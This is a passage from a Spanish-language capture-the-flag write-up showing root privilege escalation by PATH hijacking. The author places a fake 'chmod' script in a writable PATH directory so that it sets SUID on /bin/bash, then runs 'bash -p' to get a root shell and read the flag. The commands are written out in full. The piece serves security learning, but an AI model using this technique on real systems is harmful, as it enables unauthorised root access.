 ~~~bash
~~~

Bien, con esto ya tenemos claro cómo proceder, vamos a realizar un *Path Hijacking*, ya que tenemos un directorio vulnerable que ya está en el PATH.

De esta forma, la idea es secuestrar un binario del sistema que utilice ese script, como puede ser *chmod, chown o find*.

Por tanto, vamos a crear un fichero llamado "chmod" donde vamos a dar permisos SUID al binario de *bash*, de esta forma, al ejecutarlo automáticamente el script nos dará root.

~~~bash
-bash-5.1$ cd /usr/local/bin
-bash-5.1$ echo "chmod +s /bin/bash" > chmod
-bash-5.1$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-bash-5.1$ bash -p
bash-5.1# whoami
root
bash-5.1# ls /root
root.txt
~~~

Pues así conseguimos la flag de root. Espero que os haya gustado y nos vemos en la próxima.